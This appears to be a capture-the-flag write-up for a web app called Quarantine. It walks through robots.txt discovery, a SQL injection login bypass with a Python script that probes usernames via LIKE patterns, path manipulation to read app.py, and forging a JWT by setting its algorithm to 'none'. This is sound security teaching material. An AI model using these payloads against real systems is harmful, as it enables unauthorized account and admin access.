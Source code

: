 # Quarantine

There are several flags located on this website, each corresponding to a different challenge. The website in question:

![quarantine](../images/quarantine.png)

For this writeup I will decribe each task and their solution.

## Hidden Information

> We think there's a file they don't want people to see hidden somewhere! See if you can find it, it's gotta be on their webapp somewhere...

Given the description, I go see the `robots.txt` file. Here is its content:

```
User-Agent: *
Disallow: /admin-stash
```

So let's go to `/admin-stash`, I get the flag.

Flag: `ractf{1m_n0t_4_r0b0T}`

## Quarantine

> See if you can get access to an account on the webapp.

The objective is to get access to a regular account on the webapp. Sadly, signup is not working.

![signup](../images/quarantine_signup.png)

So let's try to get access to an account. In the form, I input `admin` as a username, and try a simple SQL injection with the following password: `' OR '1'='1`. And it kind of work, as I don't get `Incorrect login or password` but I get another error message:

![sql_error](../images/quarantine_signin.png)

It seems that in the SQL injection, the username disappears... So now I try to login using in the password field `' OR username LIKE '%'`, and once again I have the same error. So I can change the pattern for username match in order to find a unique username!

This Python script does the trick:

```python
import requests

url = "http://88.198.219.20:62277/sign-in"
headers = {"Connection": "keep-alive", 
"Cache-Control": "max-age=0", 
"Upgrade-Insecure-Requests": "1", 
"Origin": "http://88.198.219.20:62277", 
"Content-Type": "application/x-www-form-urlencoded", 
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", 
"Referer": "http://88.198.219.20:62277/sign-in", 
}

def send(password):
    data = "user=admin&pass={}".format(password)
    r = requests.post(url, headers=headers, data=data)
    if "Invalid" in r.text:
        return None
    return r.text

for c in "abcdefghijklmnopqrstuvwxyz":
    answ = send("' OR username LIKE '{}%".format(c))
    if answ is not None:
        print(c)
        print(answ)
```

![connected](../images/quarantine_connected.png)

Flag: `ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}`

## Finding server information

> See if you can find the source, we think it's called app.py

Once we are connected, we can see some videos. When we click the video, we are redirected to the endpoint `/watch/video_name.mp4`. So let's modify the url to display `app.py`.

![app.py](../images/quarantine_source.png)

We get the flag in the page source.

Flag: `ractf{qu3ry5tr1ng_m4n1pul4ti0n}`

## Getting Admin

> See if you can get an admin account.

Last but not least, we need to get an admin account. To distinguish between regular and admin accounts, cookies are probably used, so let's check them.

![cookies](../images/quarantine_cookie.png)

Here we can see an authentication cookie. It looks like base64, with 2 commas, so this is probably a jwt token. Let's translate it using [jwt.io](https://jwt.io/).

![jwt](../images/quarantine_jwt.png)

This is a jwt authentication cookie, and we would like to upgrade privilege. However, we do not have the signing secret, so we will not be able to modify and verify the cookie...

The solution is to disable signature verification: if we remove the signing algorithm by replacing `HS256` by `none` in the jwt header, this does the trick. Steps are the following:
- encode the header in base64, with `none` as algorithm
- encode the payload in base64, with more privileges
- concatenate the strings with a dot, and add a final dot (signature is empty).

We get the modified jwt:

```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0.ewogICJ1c2VyIjogIkpvaG4iLAogICJwcml2aWxlZ2UiOiAyCn0.
```

We change the cookie and click on the admin button. This gives us the flag:

Flag: `ractf{j4va5cr1pt_w3b_t0ken}`

